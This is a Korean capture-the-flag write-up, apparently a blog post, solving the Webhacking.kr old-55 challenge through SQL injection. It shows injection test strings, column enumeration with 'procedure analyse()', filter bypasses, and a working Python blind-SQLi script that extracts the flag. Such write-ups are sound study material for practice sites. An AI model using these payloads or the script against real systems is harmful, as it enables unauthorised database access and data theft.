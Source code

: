 ```yaml
---
title: ["[Webhacking.kr] old-55 (sqli - 40)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, blind sqli0000]
---
```


```php
mysqli_query($db,"insert into chall55 values('{$_SESSION['id']}','".trim($_POST['score'])."','{$flag}')");
```  

메인 페이지에는 마우스 커서를 따라다니는 게임이 있고,  
`rank.php`에는 위의 SQL 쿼리를 사용해서 점수를 입력하는 시스템이 있다.  
또한, score 값으로 id를 조회할 수 있는 기능이 있다.  

먼저, burp로 score를 보내는 부분을 잡아보자.  
POST로 `score=180100&mx=245&my=273` 데이터를 요청한다.  
그리고 `rank.php`에서 `?score=180100` 파라미터를 넣으면 내 id가 정상적으로 나온다.  


```sql
insert into chall55 values('id','trim(score)','flag')
```  
PHP 코드의 SQL 쿼리는 위와 같이 실행될 것이다.  


```sql
insert into chall55 values('id','123','flag'),('id1','180100','flag')
```  
multi-value INSERT가 되는지 테스트해보기 위해,  
`180100','flag'),('hello','180101` 이런 input을 넣어봤는데 DB에 insert되지 않았다.  

아무래도 어떤 필터가 동작하는것 같다.


접근법을 바꿔보자.  
`rank.php`에서 score의 결과를 조회하는 기능도 SQL 쿼리일 것이다.  

```sql
select id, score from chall55 where score=180102
```  
위와 같은 쿼리일 것이라 가정하고,  
`?score=180103+or+1=1%23` 테스트를 해보니 결과가 출력되었다.  

flag 컬럼 값을 불러오기 위해 `union select`를 사용하려고 했으나,  
`select` 문자열이 필터링이 된다.  

old-53에서 사용했던 `procedure analyse()`를 써보자.  

```
?score=180102+limit+0,1+procedure+analyse()
webhacking.chall55.id

?score=180102+limit+1,1+procedure+analyse()
webhacking.chall55.score

?score=180102+limit+2,1+procedure+analyse()
webhacking.chall55.p4ssw0rd_1123581321
```

flag가 기록되는 컬럼명이 `p4ssw0rd_1123581321`이다.  

Blind SQL Injection을 수행하면 된다.  
`ascii`, `ord`, `hex`, `substr`, `mid` 등이 필터링된다.  

Blind SQLi는 이진탐색을 이용해서 해결하고 싶은데, `mid`와 `substr`이 모두 막혀서 할 수 없이 `left`를 썼다.  

## Payload
```python
import requests

url = "https://webhacking.kr/challenge/web-31/rank.php"
cookies = {"PHPSESSID": "dmjrpfsds9jujfikg5hit9cnvr"}

for i in range(1,50):
    payload = f"180102+and+length(p4ssw0rd_1123581321)={i}"
    response = requests.get(f"{url}?score={payload}")

    if('holaf' in response.text):
        flag_len = i
        print(f"Flag length is {flag_len}")
        break

flag='0x'
print_flag = ''
for i in range(1, flag_len+1):
    for j in range(32, 127):
        payload = f"180102+and+left(p4ssw0rd_1123581321,{i})={flag}{hex(j)[2:]}"
        response = requests.get(f"{url}?score={payload}")
        if('holaf' in response.text):
            flag = flag + str(hex(j)[2:])
            print_flag = print_flag + chr(j)
            print(f"Flag is {print_flag}")
            break
```

### 복기
다 풀고 다른 사람들의 풀이를 보니  
`right(left())`로 `substr`의 효과를 낼 수 있었다.  
또 하나 배워갑니다.